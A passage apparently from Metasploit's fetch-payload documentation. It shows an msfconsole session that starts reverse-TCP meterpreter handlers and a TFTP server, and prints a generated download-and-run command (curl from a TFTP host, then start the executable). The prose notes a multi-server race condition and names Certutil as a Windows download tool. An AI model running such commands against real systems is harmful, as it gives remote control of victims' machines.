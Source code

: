 ```msf
[*] starting tftpserver on 10.5.135.201:8080
[*] Started reverse TCP handler on 10.5.135.201:4445 
msf payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > jobs

Jobs
====

  Id  Name                    Payload                                       Payload opts
  --  ----                    -------                                       ------------
  2   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4444
  4   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4445

msf payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > netstat -an | grep 8080
[*] exec: netstat -an | grep 8080

udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
msf payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set FETCH_URIPATH test4
FETCH_URIPATH => test4
msf payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set LPORT 8547
LPORT => 8547
msf payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > to_handler

[*] Command to run on remote host: curl -so DOjmRoCOSMn.exe tftp://10.5.135.201:8080/test4 & start /B DOjmRoCOSMn.exe
[*] Payload Handler Started as Job 5

[*] starting tftpserver on 10.5.135.201:8080
[*] Started reverse TCP handler on 10.5.135.201:8547 
msf payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > netstat -an | grep 8080
[*] exec: netstat -an | grep 8080

udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          

```
There is nothing to stop you from creating a race condition by starting multiple tftp servers with the same IP, port,
and `FETCH_URI` value but serving different payloads.  This will result in a race condition where the payload served is
non-deterministic.


### Windows Only
#### `Certutil`
Certutil is a great choice for Windows targets- it is likely to be present on most recent releases of Windows and is 
highly configurable.  The one troublesome aspect is that there is no insecure mode for Certutil, so if you are using
Certutil with the HTTPS protocol, the certificate must be correct and checked.  It supports `HTTP` and `HTTPS`
protocols.
